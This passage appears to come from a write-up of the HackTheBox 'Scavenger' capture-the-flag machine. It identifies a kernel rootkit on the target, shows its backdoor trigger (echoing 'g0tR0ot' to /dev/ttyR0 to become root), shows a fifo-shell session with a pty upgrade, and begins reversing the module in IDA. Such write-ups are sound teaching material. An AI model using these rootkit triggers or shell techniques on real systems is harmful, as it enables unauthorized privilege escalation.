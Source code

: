 Some Googling of strings from this source lands me [on 0x00sec.org](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485). Comparing the source to the code from this post confirms it’s the same. To trigger the root kit in the post, I need to send the password, “g0tR0ot” to `/dev/ttyR0`. In the example from the site, it works:

```

$ id
uid=1000(pico) gid=1000(pico) groups=1000(pico)
$ echo "g0tR0ot" > /dev/ttyR0
$ id
uid=0(root) gid=0(root) groups=0(root)

```

On Scavenger, it does not:

```

root@kali# ./scavenger-stateful.py 
[*] Session ID: 52451
[*] Setting up fifo shell on target
[+] Read Thread starting
scavenger> python -c 'import pty;pty.spawn("/bin/sh")'
$ 
scavenger> toggle_prompt
id
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
$ 
echo "g0tR0ot" > /dev/ttyR0
$ 
id
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)

```

Still, the fact that `/dev/ttyR0` exists on the box at all hints that I’m in the right spot.

### RE

Now I’ll open the module in Ida Pro free and take a look. Ida highlights in white five user defined functions to take a look at:

![1566759480538](https://0xdfimages.gitlab.io/img/1566759480538.png)

Consistent with the blog post, `root_write` is the interesting one.

Right away I can see that the result of a `memcmp` determines if it goes into setting the user information to 0 (root), or to failure:

![1566759635185](https://0xdfimages.gitlab.io/img/1566759635185.png)

That `memcmp` compares two strings - the input stream and `magic`, the result of a`snprintf` call:

![1566759813927](https://0xdfimages.gitlab.io/img/1566759813927.png)
